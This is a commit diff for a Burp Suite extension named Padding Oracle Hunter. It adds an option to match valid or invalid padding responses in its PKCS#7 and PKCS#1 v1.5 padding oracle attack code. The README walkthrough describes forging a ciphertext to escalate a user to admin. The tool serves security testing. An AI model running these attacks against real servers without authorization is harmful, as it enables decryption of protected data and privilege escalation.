

Support both valid and invalid padding response

diff --git a/padding_oracle_hunter.py b/padding_oracle_hunter.py
@@ -29,14 +29,16 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
     gPlaintextPKCS7 = ""
     gBlockSizePKCS7 = ""
     gThreadPKCS7 = ""
-    gInvalidPadMsgPKCS7 = ""
+    gPadMsgPKCS7 = ""
+    gPadMsgSelPKCS7 = ""
+    
 
 
     def DisplayOutput_PKCS7(self, text):
         self.__jTextAreaOutputPKCS7.append(text)
 
     
-    def Worker_PKCS7(self, payloadLen, blockLen, current_block, encrypted_payload, mod_byte, numOfPad, invalidPadMsg, start_byte, end_byte, mode, q):
+    def Worker_PKCS7(self, payloadLen, blockLen, current_block, encrypted_payload, mod_byte, numOfPad, PadMsg, start_byte, end_byte, mode, q):
         
         for byteValue in range(start_byte,end_byte):
             # Exit the operation if stop button was clicked
@@ -65,11 +67,18 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
                     # send the web request            
                     result = self.ServiceRequest_PKCS7(encrypted_payload.replace(current_block,mod_block))
 
-                # check for padding success message and correct response message        
-                if (hexlify(invalidPadMsg.encode()) not in hexlify(result)):                    
-                    decb4xor = byteValue ^ numOfPad                    
-                    q.put(decb4xor)            
-                    return
+                # if the message is an invalid padding message
+                if self.gPadMsgSelPKCS7=="Invalid":
+                    if (hexlify(PadMsg.encode()) not in hexlify(result)):                    
+                        decb4xor = byteValue ^ numOfPad                    
+                        q.put(decb4xor)            
+                        return
+                # if the message is a valid padding message
+                else:
+                    if (hexlify(PadMsg.encode()) in hexlify(result)):                    
+                        decb4xor = byteValue ^ numOfPad                    
+                        q.put(decb4xor)            
+                        return
 
                 # return if the correct padding is already found
                 if(not q.empty()):            
@@ -266,7 +275,7 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
                 for k in range(0,numberOfThread):
                     start_byte_range = k * byte_range
                     end_byte_range = (k+1) * byte_range
-                    x = threading.Thread(target=self.Worker_PKCS7, args=(payloadLen, blockLen, current_block, encrypted_payload, mod_byte, numOfPad, self.gInvalidPadMsgPKCS7, start_byte_range, end_byte_range, "enc", q))
+                    x = threading.Thread(target=self.Worker_PKCS7, args=(payloadLen, blockLen, current_block, encrypted_payload, mod_byte, numOfPad, self.gPadMsgPKCS7, start_byte_range, end_byte_range, "enc", q))
                     threads.append(x)
                     x.start()
                 
@@ -274,7 +283,7 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
                 if(byte_remain != 0):
                     start_byte_range = (k+1) * byte_range
                     end_byte_range = ((k+1) * byte_range) + byte_remain
-                    x = threading.Thread(target=self.Worker_PKCS7, args=(payloadLen, blockLen, current_block, encrypted_payload, mod_byte, numOfPad, self.gInvalidPadMsgPKCS7, start_byte_range, end_byte_range, "enc", q))
+                    x = threading.Thread(target=self.Worker_PKCS7, args=(payloadLen, blockLen, current_block, encrypted_payload, mod_byte, numOfPad, self.gPadMsgPKCS7, start_byte_range, end_byte_range, "enc", q))
                     threads.append(x)
                     x.start()
 
@@ -369,7 +378,7 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
                 for k in range(0,numberOfThread):
                     start_byte_range = k * byte_range
                     end_byte_range = (k+1) * byte_range
-                    x = threading.Thread(target=self.Worker_PKCS7, args=(payloadLen, blockLen, current_block, encrypted_payload, mod_byte, numOfPad, self.gInvalidPadMsgPKCS7, start_byte_range, end_byte_range, "dec", q))
+                    x = threading.Thread(target=self.Worker_PKCS7, args=(payloadLen, blockLen, current_block, encrypted_payload, mod_byte, numOfPad, self.gPadMsgPKCS7, start_byte_range, end_byte_range, "dec", q))
                     threads.append(x)
                     x.start()
                 
@@ -377,7 +386,7 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
                 if(byte_remain != 0):
                     start_byte_range = (k+1) * byte_range
                     end_byte_range = ((k+1) * byte_range) + byte_remain
-                    x = threading.Thread(target=self.Worker_PKCS7, args=(payloadLen, blockLen, current_block, encrypted_payload, mod_byte, numOfPad, self.gInvalidPadMsgPKCS7, start_byte_range, end_byte_range, "dec", q))
+                    x = threading.Thread(target=self.Worker_PKCS7, args=(payloadLen, blockLen, current_block, encrypted_payload, mod_byte, numOfPad, self.gPadMsgPKCS7, start_byte_range, end_byte_range, "dec", q))
                     threads.append(x)
                     x.start()
 
@@ -467,12 +476,13 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
 
             # Only used in the encryption or decryption operations
             if mode!="test":
-                # Get invalid padding message
-                invalidPadMsg = self.__textInvalidPadMessagePKCS7.getText()
-                if invalidPadMsg=="":
-                    JOptionPane.showMessageDialog(self._jPaddingOracleTab, "Please provide part or full of the invalid padding response!", "Error", JOptionPane.ERROR_MESSAGE)
+                # Get valid or invalid padding message
+                self.gPadMsgSelPKCS7 = self.__jComboBoxPadMsgPKCS7.getSelectedItem()
+                PadMsg = self.__textPadMessagePKCS7.getText()
+                if PadMsg=="":
+                    JOptionPane.showMessageDialog(self._jPaddingOracleTab, "Please provide part or full of the valid or invalid padding response!", "Error", JOptionPane.ERROR_MESSAGE)
                     return False
-                self.gInvalidPadMsgPKCS7 = invalidPadMsg
+                self.gPadMsgPKCS7 = PadMsg
 
             return True                
         except Exception as e:
@@ -501,9 +511,11 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
         self.__textBlockSizePKCS7 = JTextField("16")
         self.__textBlockSizePKCS7.setToolTipText("block size (byte)")        
 
-        self.__jLabelInvalidPadMessagePKCS7 = JLabel("Invalid Padding Response:")        
-        self.__textInvalidPadMessagePKCS7 = JTextField()        
-        self.__textInvalidPadMessagePKCS7.setToolTipText("part or full of the invalid padding response, only used in the encryption and decryption operations")
+        self.__jLabelPadMessagePKCS7 = JLabel("Padding Response:")        
+        self.__textPadMessagePKCS7 = JTextField()        
+        self.__textPadMessagePKCS7.setToolTipText("part or full of the valid or invalid padding response, only used in the encryption and decryption operations")
+        self.__jComboBoxPadMsgPKCS7 = JComboBox(['Invalid', 'Valid'])
+        self.__jComboBoxPadMsgPKCS7.setSelectedIndex(0)
 
         self.__jButtonClearPayloadPKCS7 = JButton("Clear Selection",actionPerformed=self.clearPayload_PKCS7)
         self.__jButtonSelPayloadPKCS7 = JButton("Select Payload",actionPerformed=self.selectPayload_PKCS7)
@@ -511,6 +523,7 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
         self.__jLabelFormatPKCS7 = JLabel("Format:")
         self.__jComboBoxFormatPKCS7 = JComboBox(['Hex', 'Base64', 'Decimal'])
         self.__jComboBoxFormatPKCS7.setSelectedIndex(0)
+        
 
         self.__jCheckBoxUrlEncodedPKCS7=JCheckBox("Url Encoded")        
         
@@ -554,14 +567,16 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
                           jPanelLayoutPKCS7.createParallelGroup()
                           .addComponent(self.__jLabelThreadPKCS7)
                           .addComponent(self.__jLabelBlockSizePKCS7)                
-                          .addComponent(self.__jLabelInvalidPadMessagePKCS7)
+                          .addComponent(self.__jLabelPadMessagePKCS7)
                           .addComponent(self.__jLabelPlaintextPKCS7))
                 .addGroup( 
                           jPanelLayoutPKCS7.createParallelGroup()                                   
                           .addComponent(self.__textThreadPKCS7, GroupLayout.PREFERRED_SIZE, 112, GroupLayout.PREFERRED_SIZE)
                           .addComponent(self.__textBlockSizePKCS7, GroupLayout.PREFERRED_SIZE, 112, GroupLayout.PREFERRED_SIZE)
-                          .addComponent(self.__textInvalidPadMessagePKCS7, GroupLayout.PREFERRED_SIZE, 940, GroupLayout.PREFERRED_SIZE)
-                          .addComponent(self.__textPlaintextPKCS7, GroupLayout.PREFERRED_SIZE, 940, GroupLayout.PREFERRED_SIZE)))           
+                          .addComponent(self.__textPadMessagePKCS7, GroupLayout.PREFERRED_SIZE, 870, GroupLayout.PREFERRED_SIZE)                          
+                          .addComponent(self.__textPlaintextPKCS7, GroupLayout.PREFERRED_SIZE, 870, GroupLayout.PREFERRED_SIZE))
+                .addGap(20, 20, 20)  
+                .addComponent(self.__jComboBoxPadMsgPKCS7,GroupLayout.PREFERRED_SIZE, GroupLayout.DEFAULT_SIZE, GroupLayout.PREFERRED_SIZE))                
                 
             .addComponent(self.__jLabelOutPKCS7)
             .addComponent(self.__jScrollPaneOutPKCS7,GroupLayout.PREFERRED_SIZE, 0, 1080)            
@@ -603,8 +618,9 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
             .addGap(20, 20, 20)
             .addGroup(
                 jPanelLayoutPKCS7.createParallelGroup()
-                .addComponent(self.__jLabelInvalidPadMessagePKCS7)
-                .addComponent(self.__textInvalidPadMessagePKCS7, GroupLayout.PREFERRED_SIZE, GroupLayout.DEFAULT_SIZE, GroupLayout.PREFERRED_SIZE))
+                .addComponent(self.__jLabelPadMessagePKCS7)
+                .addComponent(self.__textPadMessagePKCS7, GroupLayout.PREFERRED_SIZE, GroupLayout.DEFAULT_SIZE, GroupLayout.PREFERRED_SIZE)
+                .addComponent(self.__jComboBoxPadMsgPKCS7, GroupLayout.PREFERRED_SIZE, GroupLayout.DEFAULT_SIZE, GroupLayout.PREFERRED_SIZE))
             .addGap(20, 20, 20)
             .addGroup(
                 jPanelLayoutPKCS7.createParallelGroup()
@@ -740,7 +756,7 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
         self.__jEditorPaneReqPKCS7.setText(self.gHttpRequestRawStringPKCS7)
 
         # Reset all the fields        
-        self.__textInvalidPadMessagePKCS7.setText("")
+        self.__textPadMessagePKCS7.setText("")
         self.__textPlaintextPKCS7.setText("")
         self.__jTextAreaOutputPKCS7.setText("")        
 
@@ -758,7 +774,8 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
     gSelectedPayloadPKCS15 = None
     gModulusPKCS15=0
     gExponentPKCS15=0
-    gInvalidPadMsgPKCS15 = ""
+    gPadMsgSelPKCS15 = ""
+    gPadMsgPKCS15 = ""    
     gByteLenPKCS15 = 0
     gQueriesPKCS15 = 0
     gTimePKCS15 = 0
@@ -800,9 +817,11 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
         self.__textPublicModPKCS15 = JTextField()
         self.__textPublicModPKCS15.setToolTipText("RSA public modulus in decimal")
 
-        self.__jLabelInvalidPadMessagePKCS15 = JLabel("Invalid Padding Response:")        
-        self.__textInvalidPadMessagePKCS15 = JTextField()        
-        self.__textInvalidPadMessagePKCS15.setToolTipText("part or full of the invalid padding response, only used in the decryption operation")
+        self.__jLabelPadMessagePKCS15 = JLabel("Padding Response:")        
+        self.__textPadMessagePKCS15 = JTextField()        
+        self.__textPadMessagePKCS15.setToolTipText("part or full of the valid or invalid padding response, only used in the decryption operation")
+        self.__jComboBoxPadMsgPKCS15 = JComboBox(['Invalid', 'Valid'])
+        self.__jComboBoxPadMsgPKCS15.setSelectedIndex(0)
 
         self.__jLabelUpdateIntervalPKCS15 = JLabel("Update Interval:")
         self.__jComboBoxUpdateIntervalPKCS15 = JComboBox(['100', '1000', '10000'])
@@ -842,14 +861,16 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
                           jPanelLayoutPKCS15.createParallelGroup()
                           .addComponent(self.__jLabelPublicExpPKCS15)
                           .addComponent(self.__jLabelPublicModPKCS15)                
-                          .addComponent(self.__jLabelInvalidPadMessagePKCS15)
+                          .addComponent(self.__jLabelPadMessagePKCS15)
                           .addComponent(self.__jLabelUpdateIntervalPKCS15))
                 .addGroup( 
                           jPanelLayoutPKCS15.createParallelGroup()                          
-                          .addComponent(self.__textPublicExpPKCS15, GroupLayout.PREFERRED_SIZE, 940, GroupLayout.PREFERRED_SIZE)
-                          .addComponent(self.__textPublicModPKCS15, GroupLayout.PREFERRED_SIZE, 940, GroupLayout.PREFERRED_SIZE)
-                          .addComponent(self.__textInvalidPadMessagePKCS15, GroupLayout.PREFERRED_SIZE, 940, GroupLayout.PREFERRED_SIZE)
-                          .addComponent(self.__jComboBoxUpdateIntervalPKCS15,GroupLayout.PREFERRED_SIZE, GroupLayout.DEFAULT_SIZE, GroupLayout.PREFERRED_SIZE)))
+                          .addComponent(self.__textPublicExpPKCS15, GroupLayout.PREFERRED_SIZE, 870, GroupLayout.PREFERRED_SIZE)
+                          .addComponent(self.__textPublicModPKCS15, GroupLayout.PREFERRED_SIZE, 870, GroupLayout.PREFERRED_SIZE)
+                          .addComponent(self.__textPadMessagePKCS15, GroupLayout.PREFERRED_SIZE, 870, GroupLayout.PREFERRED_SIZE)
+                          .addComponent(self.__jComboBoxUpdateIntervalPKCS15,GroupLayout.PREFERRED_SIZE, GroupLayout.DEFAULT_SIZE, GroupLayout.PREFERRED_SIZE))
+                .addGap(20, 20, 20)  
+                .addComponent(self.__jComboBoxPadMsgPKCS15,GroupLayout.PREFERRED_SIZE, GroupLayout.DEFAULT_SIZE, GroupLayout.PREFERRED_SIZE))                
                 
             .addComponent(self.__jLabelOutPKCS15)
             .addComponent(self.__jScrollPaneOutPKCS15,GroupLayout.PREFERRED_SIZE, 0, 1080)            
@@ -888,8 +909,9 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
             .addGap(20, 20, 20)
             .addGroup(
                 jPanelLayoutPKCS15.createParallelGroup()
-                .addComponent(self.__jLabelInvalidPadMessagePKCS15)
-                .addComponent(self.__textInvalidPadMessagePKCS15, GroupLayout.PREFERRED_SIZE, GroupLayout.DEFAULT_SIZE, GroupLayout.PREFERRED_SIZE))
+                .addComponent(self.__jLabelPadMessagePKCS15)
+                .addComponent(self.__textPadMessagePKCS15, GroupLayout.PREFERRED_SIZE, GroupLayout.DEFAULT_SIZE, GroupLayout.PREFERRED_SIZE)
+                .addComponent(self.__jComboBoxPadMsgPKCS15, GroupLayout.PREFERRED_SIZE, GroupLayout.DEFAULT_SIZE, GroupLayout.PREFERRED_SIZE))
             .addGap(20, 20, 20)
             .addGroup(
                 jPanelLayoutPKCS15.createParallelGroup()
@@ -993,14 +1015,20 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
             self.DisplayOutput_PKCS15("Query: #{}    time: {} s\n".format(self.gQueriesPKCS15, round(currentTime - self.gTimePKCS15,3)))                
 
         # send the service request    
-        response = self.ServiceRequest_PKCS15(ciphertext)        
+        response = self.ServiceRequest_PKCS15(ciphertext)                
         
-        # check the server response for invalid padding message
-        if hexlify(self.gInvalidPadMsgPKCS15.encode()) in hexlify(response):
-            return False
+        # if the message is an invalid padding message
+        if self.gPadMsgSelPKCS15=="Invalid":
+            if hexlify(self.gPadMsgPKCS15.encode()) in hexlify(response):
+                return False
+            else:
+                return True
+        # if the message is a valid padding message
         else:
-            return True        
-        
+            if hexlify(self.gPadMsgPKCS15.encode()) not in hexlify(response):
+                return False
+            else:
+                return True        
 
     # Step 2.A.
     def FindSmallest_PKCS15(self,lower_bound, c):
@@ -1204,13 +1232,14 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
             # Compute the ByteLength
             self.gByteLenPKCS15 = self.gModulusPKCS15.bit_length()//8
 
-            # Get invalid padding message
+            # Get valid or invalid padding message
             if mode=="decrypt":
-                invalidpadmsg = self.__textInvalidPadMessagePKCS15.getText()
-                if invalidpadmsg=="":
-                    JOptionPane.showMessageDialog(self._jPaddingOracleTab, "Please provide part or full of the invalid padding response!", "Error", JOptionPane.ERROR_MESSAGE)
+                self.gPadMsgSelPKCS15 = self.__jComboBoxPadMsgPKCS15.getSelectedItem()
+                padmsg = self.__textPadMessagePKCS15.getText()
+                if padmsg=="":
+                    JOptionPane.showMessageDialog(self._jPaddingOracleTab, "Please provide part or full of the valid or invalid padding response!", "Error", JOptionPane.ERROR_MESSAGE)
                     return False                
-                self.gInvalidPadMsgPKCS15 = invalidpadmsg
+                self.gPadMsgPKCS15 = padmsg
             
             return True
 
@@ -1246,7 +1275,7 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
          # Reset all the fields
         self.__textPublicExpPKCS15.setText("")
         self.__textPublicModPKCS15.setText("")
-        self.__textInvalidPadMessagePKCS15.setText("")        
+        self.__textPadMessagePKCS15.setText("")        
         self.__jTextAreaOutputPKCS15.setText("")
         self.__jComboBoxUpdateIntervalPKCS15.setSelectedIndex(0)
 
@@ -1426,4 +1455,4 @@ class BurpExtender(IBurpExtender, IContextMenuFactory, ITab, IExtensionStateList
 
 
     def printInfo(self):
-        print('Padding Oracle Hunter v1.0.1\nCreated by: GovTech (Tan Inn Fung)')
+        print('Padding Oracle Hunter v1.1\nCreated by: GovTech (Tan Inn Fung)')

diff --git a/README.md b/README.md
@@ -12,10 +12,10 @@ The following GUI can be used to identify and perform the padding oracle attack 
 	 
 The components of the GUI (above) are as follows:
 1. Http request window.
-2. Panel to select the payload and its format. To achieve full decryption, the payload is expected to be IV || ciphertext.
+2. Panel to select the payload and its format. To achieve full decryption, the payload is expected to be in the format of IV || ciphertext.
 3. The number of threads used to perform the attack. With more threads, the computation is expected to be faster.
 4. The block size of the encryption protocol.
-5. The response from the server (partial or full) due to invalid padding. Only used in the encryption and decryption operations.
+5. The unique response from the server (partial or full) due to valid or invalid padding. Only used in the encryption and decryption operations.
 6. The plaintext which will be used to compute the ciphertext. Only used in the encryption operation.
 7. Output window.
 8. Test function to verify whether the server is vulnerable to PKCS#7 padding oracle attack.
@@ -32,8 +32,8 @@ The components of the GUI (above) are as follows:
 2. Panel to select the payload and its format.
 3. The RSA public exponent.
 4. The RSA public modulus.
-5. The response from the server (partial or full) due to invalid padding. Only used in the decryption operation.
-6. Interval to display the test and decryption results.
+5. The unique response from the server (partial or full) due to valid or invalid padding. Only used in the decryption operation.
+6. Interval to display the decryption results.
 7. Output window.
 8. Test function to verify whether the server is vulnerable to PKCS#1 v1.5 padding oracle attack.
 9. Decrypt function to recover the plaintext from the encrypted payload.
@@ -69,8 +69,9 @@ The components of the GUI (above) are as follows:
 4. Click the **Test** button, and it will provide a summary indicating the server is vulnerable to padding oracle attack.
 ![picture](./images/PKCS7_Test.PNG)
 
-5. Copy either part/full of the **Invalid Padding** response from the **Output** window and put it in the **Invalid Padding Response** textbox, click the **Decrypt** button to recover the plaintext.
-![picture](./images/PKCS7_Decrypt.PNG)
+5. Copy either part/full of the padding response from the **Output** window and put it in the **Padding Response** textbox. You can choose to use either the valid or invalid padding response. Click the **Decrypt** button to recover the plaintext.
+![picture](./images/PKCS7_Decrypt_Invalid.PNG)
+![picture](./images/PKCS7_Decrypt_Valid.PNG)
 
 6. In order to escalate the privilege to admin, we will need to modify the plaintext to **{"userid":"100","isAdmin":"True"}** and convert it to a hexadecimal value.
 ![picture](./images/PKCS7_ConvertPlaintextToHex.PNG)
@@ -95,11 +96,11 @@ The components of the GUI (above) are as follows:
 5. Click the **Test** button, and it will provide a summary indicating the server is vulnerable to padding oracle attack.
 ![picture](./images/PKCS1.5_Test.PNG)
 
-6. Copy either part/full of the **Invalid Padding** response from the **Output** window and put it in the **Invalid Padding Response** textbox. Click the **Decrypt** button, and the plaintext will be recovered at about 50k requests.
-![picture](./images/PKCS1.5_Decrypt.PNG)
+6. Copy either part/full of the padding response from the **Output** window and put it in the **Padding Response** textbox. You can choose to use either the valid or invalid padding response. Click the **Decrypt** button, and the plaintext will be recovered at about 50k requests.
+![picture](./images/PKCS1.5_Decrypt_Invalid.PNG)
+![picture](./images/PKCS1.5_Decrypt_Valid.PNG)
 
 # Contributing #
-
 [![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/govtech-csg/PaddingOracleHunter/issues)
 
  * If you find bugs, kindly log us an [issue ticket](https://github.com/govtech-csg/PaddingOracleHunter/issues) to report them. Do ensure that the bug has not already been reported by searching on GitHub under Issues.
